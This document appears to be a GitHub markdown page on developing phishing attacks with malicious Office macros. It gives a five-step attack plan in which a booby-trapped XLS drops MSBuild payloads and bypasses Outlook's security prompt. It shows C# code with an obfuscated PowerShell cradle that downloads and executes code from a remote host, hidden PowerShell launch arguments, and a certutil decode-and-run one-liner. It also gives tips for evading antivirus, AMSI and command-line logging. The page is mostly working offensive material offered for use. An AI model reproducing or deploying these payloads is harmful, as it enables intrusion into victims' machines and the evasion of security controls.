 # Attack Vectors Development
___
* [5 Step Phish Attack](#10-step-attack)
* [Case #1: Hide PowerShell Payload in File Properties](#hide-powershell-payload-in-file-properties)
* [Case #2: Actrive X Controls for Macro Execution](#actrive-x-controls-for-macro-execution)
* [Case #3: Download and Execute](#download-and-execute)
* Case #4: Macro ID's OS and Executes Payload
* Case #5: RTF + Signed Binary + DLL Highjacking + Custom MSF Loader
* Case #6: Embeded Executable in Macro [executable2vbx]
* Case #7: Network Tracing Macro
* Case #8: APT Multi-stage Malware w/DNS Payload Retrieval & Execute
* Case #9: Macro Direct Shellcode Injection
* Case #10: Macro in PowerPoint

## Pre-Attack Setup

1. Create Office file

2. Create malicious maco or other delivery method

3. Create any additional malicous files

4. Embed Office file with payload delivery methods

   **Macro Note** Auto execute macro on file open

   ```vbscript
   Sub Auto_Open()
       ...script...
   End Sub
   ```

   

## Attack

Five steps to utilizing the below Use Cases to develop and deploy an attack.

1. Attacker emails malicious XLS file to target
2. Target openes maliccious XLS file and enables macro
3. Malicious XLS file drops **msbuild_outlook.xml**, **msbuild\_prompt_bypass.xml**, and **msbuild_stager.xml** into the `%PUBLIC%\Libraries\` directory.  
	- The outlook malware and security bypass are loaded into memory.
	- The Outlook malware constantly monitors the targets mailbox (inbox, junk, & deleted) for a *trigger email*.  Outlooks security promopt is bypassed by a custom PowerShell `sendkeys` script.
4. Attacker sends *trigger email*
5. *Trigger email* is identified by the Outlook malware. The dropped **msbuild_stager.xml** is given to `MSBuild` as an argument.  PowerShell Empire's agent is eventually loaded.  _no interaction with PowerShell occurs_ 

Sample C# Code: [Full ReverseShell](https://github.com/sn8ke01/pxt/blob/master/scripts/powermemory-reverseshell.xml)

```cs
public override bool Execute() {
					string pok = "$WC=NeW-OBJecT SyStem.NET.WEbCLIENt;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$wc.HeAders.ADd('User-Agent',$u);$Wc.ProxY = [SYsTem.NET.WEBREQUesT]::DEFAuLtWebPRoxy;$WC.PROxY.CrEdentIalS = [SYSteM.Net.CreDentialCACHe]::DEFAulTNETWOrkCrEdEnTialS;$K='daf00538a3dfee3f25671a3f9d076377';$i=0;[Char[]]$B=([char[]]($Wc.DownLoADSTriNG('http://10.0.2.15:8080/index.asp')))|%{$_-bXoR$K[$I++%$K.LENGTH]};IEX ($b-joiN'')";
					Runspace runspace = RunspaceFactory.CreateRunspace();
					runspace.Open();
					RunspaceInvoke scriptInvoker = new RunspaceInvoke(runspace);
					Pipeline pipeline = runspace.CreatePipeline();
					pipeline.Commands.AddScript(pok);
					pipeline.Invoke();
					runspace.Close();			
					return true;
```
## Hide PowerShell Payload in File Properties
This Macro hides PowerShell payload in the file's properties.  In this *USE CASE* it hide inside the **Author** property.

This macro also hides PowerShell cmd's arg from command-line logging via `Stdln.WriteLine`.

PowerShell is lauched with multiple cmd line args to create a silent execution.

```PowerShell
powershell.exe Set-ExecutionPolicy -ExecutionPolicy Unrestricted -WindowStyle Hidden -noprofile -noexit
```

* **AutoOpen** is picked up by some AVs so other ways for triggering the macro should be considered. Ex: Marco triggering button.
* **File Propery Deletion:**  Each modification to the macro OR file content will delete the Author property.  This will need to be readded.
* **Evasion Technique:**  Encode the payload and hide in a custom Excel form or spreadsheet 
* **Windows 10 AMSI detection:**  Use Case PowerShell cmd may get picked up by Windows 10 [AMSI](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal?redirectedfrom=MSDN)
* **Obfuscation:**  Include non fuctinal code (ex variable *c*).

[**Source Code**](https://github.com/sn8ke01/pxt/blob/master/scripts/131-UseCase1-CustomMacro.txt)

## Actrive X Controls for Macro Execution
This Macro uses an Active X sub-routine to execute the code.  Specifficlly `InkEdit` control will auto execute the code.

Active X controls that will auto run a macro: [Grey Hat Hacker List](http://www.greyhathacker.net/?p=948)

**Embed Active X control**

1. Enable Developer Tab [File - Options - Customize Ribbon]
2. Under Controls Section: Legacy Tools - More Options


* `InkEdit` Macro that downloads an EXE then executes the EXE: [**Active X Macro Code**](https://github.com/sn8ke01/pxt/blob/master/scripts/131-UseCase2-ActiveX-Macro.txt)
* `InkEdit` Macro that downloads *stager1.ps1* and *stager2.ps1* [**Active X Macro Code w/WMI**](https://github.com/sn8ke01/pxt/blob/master/scripts/131-UseCase2-ActiveX-WMI-Macro.txt)

## Download and Execute
This macro utilizes Windows `certutils`.

- Drops **base64** encoded **HTA** file. Ex Stager exported as an **HTA**
- `certutils` decodes and executes **HTA** file

```cmd
cmd /c certutil -decode encoded.crt encoded.hta & start encoded.hta
```
Metasploit, Powershell Empire, Social Engineering Toolkit, Unicors, and others have the capability to export thier stagers as HTA files.

**PowerShell Empire** post-exploitation stager/agent

1. Setup a PSE listener
2. run `usestager hta listener_name`
3. `execute`
4. **base64** encode output & save as **crt** file

(See walkthrough for more detail) :boom: (walktrough not ready yet)

[**Source Code**](https://github.com/sn8ke01/pxt/blob/master/scripts/131-UseCase3-DownloadandExecute.txt)

